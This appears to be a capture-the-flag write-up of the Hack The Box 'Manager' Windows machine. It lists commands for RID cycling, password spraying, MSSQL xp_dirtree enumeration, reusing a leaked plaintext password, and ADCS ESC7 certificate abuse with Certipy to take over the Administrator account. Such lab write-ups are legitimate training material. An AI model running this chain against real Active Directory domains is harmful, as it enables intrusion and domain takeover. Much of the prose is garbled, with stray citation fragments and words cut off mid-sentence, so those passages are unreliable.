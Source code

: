 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
    
    - RID Cycling (user SID enumeration)
    - Password spray (username == password)
    - MSSQL `xp_dirtree` file enumeration
    - Plaintext credentials in config file
    - ADCS ESC7 misconfiguration (cert issuance for privilege escalation)
        

**Open Ports:**

- 53 – DNS
- 80 – HTTP
    
- 88 – Kerberos
    
- 135 – MS RPC
    
- 139 – NetBIOS-SSN
    
- 389 – LDAP
    
- 445 – SMB
    
- 464 – kpasswd5 (Kerberos Password)
    
- 593 – RPC HTTP
    
- 636 – LDAPS
    
- 1433 – MSSQL
    
- 3268/3269 – Global Catalog
    
- 5985 – WinRM
    
- 9389 – ADWS
    

---

### 🧠 TL;DR

This Windows Active Directory machine required chaining multiple weaknesses to get Administrator. In summary:

- **User Enumeration:** Performed a RID cycling attack (null session SID enumeration) to list domain users, which revealed several valid usernames like `raven` and `operator ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=1113%3A%20MANAGER,Operator%20%28SidTypeUser))】.
    
- **Initial Credential:** Used a password spraying strategy testing username-as-password for each account. Discovered that the `operator` account had the password **operator** (i.e. `operator:operator` was valid ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=manager.htb))】.
    
- **MSSQL Access:** With the `operator` credentials (a low-priv domain user), gained access to the MSSQL service on the server using Windows authentication. Since commands like `xp_cmdshell` were disabled, leveraged the `xp_dirtree` procedure to enumerate the file system. This revealed a website backup ZIP file in the webroo ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html))】.
    
- **Sensitive Data Exposure:** Downloaded the backup archive from the web server and extracted it. Inside was an old configuration XML file containing an LDAP bind account for user **Raven**, along with her plaintext password (`R4v3nBe5tD3veloP3r!123` ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=%3Caccess,list))】. This provided credentials for the domain user **raven**.
    
- **Privilege Escalation to User:** Logged into the target as Raven (e.g. via WinRM) and confirmed this account’s access. Found that Raven had elevated privileges in Active Directory Certificate Services (ADCS) – specifically, she possessed the **Manage CA** permission on the enterprise CA (an ESC7 misconfiguration ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=ESC7%20is%20when%20a%20user,shown%20in%20the%20output%20above))】. This meant Raven could manage certificate issuance on the CA.
    
- **Privilege Escalation to Administrator:** Abused the ADCS **ESC7** misconfiguration to issue a certificate for the Domain Administrator. In practice, Raven’s ManageCA rights were used to give herself certificate manager privileges and then request a SubCA certificate as Administrator (which is initially pending) and manually approve it. This yielded a valid cert for Administrator’s identit ([HackTricks/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md#:~:text=The%20technique%20relies%20on%20the,issued%20by%20the%20manager%20afterwards))】. Using that certificate, obtained Administrator credentials (NTLM hash) and logged in as **Administrator**, owning the box.
    

---

### 🔧 Tools

- `nmap`, `ffuf`, `feroxbuster`, `lookupsid.py`, `netexec`, `ldapsearch`, `ldapdomaindump`
    
- `mssqlclient.py`, `wget`, `evil-winrm`, `Certipy`
    

---

### 🚀 Commands

- `nmap -p- --min-rate 10000 -oA full 10.10.11.236` – Full port scan
    
- `netexec smb manager.htb -u guest -p '' --rid-brute` – RID cycle via SMB (null session)
    
- `netexec smb manager.htb -u users -p users --continue-on-success --no-brute` – Password spray (username=password for each user in list)
    
- `mssqlclient.py -windows-auth manager.htb/Operator:operator@manager.htb` – Connect to MSSQL with Operator’s domain creds
    
- Use `xp_dirtree` (in SQL prompt) to explore `C:\inetpub\wwwroot` and find the backup ZIP
    
- `wget http://manager.htb/website-backup-27-07-23-old.zip` – Download the discovered website backup
    
- `unzip website-backup-27-07-23-old.zip` – Extract contents (find `.old-conf.xml`)
    
- `evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'` – WinRM as Raven (password from config)
    
- `certipy ca -add-officer raven ...` – Use Raven’s ManageCA to give herself ManageCertificates (Certificate Manager) rights
    
- `certipy req -template SubCA -upn administrator@manager.htb ...` – Request a cert for Administrator (will be pending)
    
- `certipy ca -issue-request <ID> ...` – Manually issue the pending Administrator cert
    
- `certipy req -retrieve <ID> ...` – Retrieve the issued cert (PFX for Administrator)
    
- `certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236` – Authenticate as Administrator via certificate (get NTLM hash)
    
- `evil-winrm -i manager.htb -u administrator -H <hash>` – WinRM as Administrator with the obtained hash 🎉
    

---

### 📚 Lessons Learned

- **RID cycling** is still 🔥 for enumerating users when anonymous SMB access is a ([TrustedSec | New Tool Release - RPC_ENUM - RID Cycling Attack](https://trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack#:~:text=a%20RID%20cycling%20attack%20that,uses%20all%20standard%20python%20libraries))7-L10】. Even in modern AD setups, this can quickly expose valid usernames.
    
- A simple **password spray** (especially testing for default or username-as-password) can yield creds. Users like “operator” often have trivial passwords in lab environments.
    
- **MSSQL xp_dirtree** can leak interesting file paths and contents even if `xp_cmdshell` is di ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html))-L807】. It’s a handy trick for horizontal information disclosure on Windows SQL servers.
    
- Always check for **sensitive config files** in backups. Hardcoded credentials (like Raven’s LDAP password) are a gold mine for pivoting to higher privileges.
    
- Misconfigured **AD Certificate Services** (ESC7 in this case) is a serious escalation vector. A user with ManageCA privileges can effectively become a CA admin and issue certificates to impersonate higher privileged ac ([HackTricks/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md#:~:text=The%20technique%20relies%20on%20the,issued%20by%20the%20manager%20afterwards))-L627】. This demonstrates how dangerous ADCS misconfigurations can be in an Active Directory environment.
    
- Tools like **Certipy** greatly simplify ADCS abuse, turning complex certificate attacks into a few straightforward commands.
    

---

### 📖 References

- [0xdf: HTB Manager – Walkthrough](https://0xdf.gitlab.io/2024/03/16/htb-manager.html)
    
- [HackTricks – Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [ADCS ESC7 (Certificate Authority ACL) – Certified Pr ([HackTricks/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md#:~:text=The%20technique%20relies%20on%20the,issued%20by%20the%20manager%20afterwards))9-L627】]([https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2))
    
- [Certipy – AD CS Exploitation Tool (GitHub)](https://github.com/ly4k/Certipy)